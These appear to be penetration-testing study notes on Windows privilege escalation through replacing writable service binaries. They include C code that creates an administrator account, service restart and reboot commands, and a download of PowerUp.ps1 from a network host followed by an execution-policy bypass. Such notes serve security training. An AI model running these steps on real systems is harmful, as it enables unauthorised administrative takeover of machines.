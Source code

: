 ## Hijack service binaries
- To check the permission we have on service binaries, we can use `icacls` or `Get-ACL`
```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
- If we have Full or Write access, we can replace the binary with our own
```c++
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user alexa password123! /add");
  i = system ("net localgroup administrators alexa /add");
  
  return 0;
}
```
- Cross compile the above with `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
- After replacing the binary, we need to restart the service. We can check the startup type of a service using `Get-CimInstance`
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

net stop mysql
net start mysql

.\sc.exe start mysql
.\sc.exe stop mysql
```
> [!IMPORTANT]
> If the service startup type is set to `Auto` we may not be able to stop and start it manually. In such a case we need to check if we have to `SeShutdownPrivilege`  in order to restart the machine with `shutdown /r /t 0`, which would trigger a service restart. 
> We can also try to use `.\sc.exe config <servicename> start=demand` to change the startup type. 
- We can also use `PowerUp` and its function `Get-ModifiableServiceFile` to check this
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile

Install-ServiceBinary -Name 'mysql'
```
> [!IMPORTANT]
> By default, `PowerUp.ps1` will create a user called `john` with password `Password123!` and try to add the user to the local Administrators group
